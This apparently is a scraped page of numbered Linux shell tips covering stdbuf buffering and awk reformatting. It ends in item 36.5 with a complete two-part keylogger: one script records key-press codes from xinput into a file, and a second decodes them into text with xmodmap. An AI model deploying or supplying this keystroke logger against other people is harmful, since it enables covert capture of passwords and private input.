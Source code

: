  Read:
 
35. Dumping stdout without buffering:
 
 You can explicitly set the buffering options of the standard streams using a setvbuf call in C (see this link), but if you're trying to modify the behaviour of an existing program try stdbuf (part of coreutils starting with version 7.5 apparently).
 
 This buffers stdout up to a line:
 
 stdbuf -oL command > output
 
 This disables stdout buffering altogether:
 
 stdbuf -o0 command > output
 
 
36. Using awk to reformat the output:
``
 stdbuf -o0 xinput test 12 | awk -F' ' '{printf $3}'
``

This means, consider the lines of the output as a sequence divided by the character ' '. Then print the 3rd element of that sequence.
 
36.5. so, here is the complete keylogger:
 
 # The dumping part of the keylogger. A file called mykeylogger
```
 stdbuf -o0 xinput test 11 | stdbuf -o0 awk '/ press /' | stdbuf -o0 awk -F' ' '{print $3}' >> dump 
``` 

 # The decoding part of it. A different file called decode.sh
 
``` 
 for line in $(cat dump)
 do
 	xpr="$(xmodmap -pke | awk "NR==$line-7" | awk '{ print $4}')"
 #	echo $xpr
 	case "$xpr" in
 		Return)
 			echo -e "\n" >> out2
 			;;
 		space)
 			echo " " >> out2
 			;;
 		*)
 			echo -n $xpr >> out2
 	esac
 	echo -n " " >> out2 
 done  
 echo -e "\n" >> out2
 cat out2
```
 
